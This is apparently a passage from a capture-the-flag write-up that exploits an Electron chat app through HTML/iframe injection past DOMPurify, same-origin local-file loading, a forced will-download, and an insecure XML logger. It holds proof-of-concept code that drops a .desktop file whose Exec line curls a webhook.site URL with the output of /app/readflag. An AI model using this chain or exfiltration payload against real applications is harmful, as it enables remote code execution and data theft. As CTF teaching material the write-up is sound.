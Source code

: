 ```js

```
POC: Below messages inserts iframe with href as url in the chat.
```html
<input id=isDev >
<a href="http://ctf.s1r1us.ninja">hi</a>
```

### Note
At this point, you might think that using iframe injection to download file and creating another iframe which points to that file will solve challenge, but there is an issue. `will-download` is only triggered from mainWindow. So, we can't solve the challenge in this way

### Including Local Files in Iframe
What we can do is, somehow create html file (lets assume file:///test.html) in the victim's system and load it in the iframe. 

But there is an issue DOMPurify doesn't allow file protocol in anchor tags. This is not an issue because we can create anchor tag with relative url and browser adds absolute url based on `location`. If location is `file:///dir/dir/app.html` then `<a href=/test.html>` will be converted to `<a href=file:///test.html>`

Doing so, we can modify DOM of mainWindow because the origins are same. With mainWindow DOM modification, we can trigger `will-download`. 
POC: Triggering `will-download` and download the file without interaction

```js
a = top.document.createElement('a');
    a.download = "test.desktop";
    a.href = "data:,[Desktop Entry]\nExec=curl https://webhook.site/ea4a966b-3574-4d6a-a8d8-7/?a=`/app/readflag`\nType=Application";
    a.click();
```

Now the final piece is to create html file in the victim's system

### Insecure Logging
There is a logging mechanism, which stores given message in an xml file.

```js
const writeLog = (level, msg) => {
  let data;

  try {
    if (fs.existsSync(logFile)) {
      data = fs.readFileSync(logFile, "utf8").split("\n");
      data.splice(
        data.length - 1,
        0,
        `\t<${level}>[${new Date().toISOString()}] ${msg}</${level}>`
      );
    } else {
      data = [
        '<?xml version="1.0" encoding="UTF-8" standalone="yes"?>',
        "<logs>",
        `\t<${level}>[${new Date().toISOString()}] ${msg}</${level}>`,
        "</logs>",
      ];
    }
    fs.writeFileSync(logFile, data.join("\n"), {
      flag: "w",
    });
  } catch (e) {
    console.log(e);
  }
```